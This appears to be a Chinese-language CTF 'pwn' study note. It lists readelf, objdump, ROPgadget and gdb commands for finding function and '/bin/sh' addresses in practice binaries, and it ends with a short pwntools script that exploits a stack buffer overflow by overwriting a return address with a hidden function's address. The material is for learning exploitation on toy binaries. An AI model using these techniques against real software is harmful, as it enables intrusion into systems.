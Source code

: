 ![](imgs/pwn_stack07.jpg)

##### readelf
```sh
# header
readelf -h hide_and_seek
# Section Headers:
readelf -S hide_and_seek
readelf -s hide_and_seek # symbol table / functions

```
##### 如何找到address? 如何查找函数
三种方式
```sh
sh$ objdump -M intel -d filename | less
sh$ objdump -d filename
sh$ objdump -d -j .plt ./ret2libc3 | grep system     //查找system的plt地址
sh$ ROPgadget --binary ./ret2libc3 --string "/bin/sh"       // 查找bin_sh字符串地址
gdb-peda$ p shell
r2$ afl~shell
```
反汇编语法设置默认为AT&T改为Intel语法： 相当于-M
```
set disassembly-flavor intel>~/.gdbinit
```

retn 返回stack栈顶的地址
```python
from pwn import *
r = process('./bof')

offset = 0x7fffffffe718 - 0x7fffffffe700
hidden = 0x00400566

r.sendline('a'*offset + p64(hidden))

r.interactive()
```
进入gets前，和gets的retn对应offset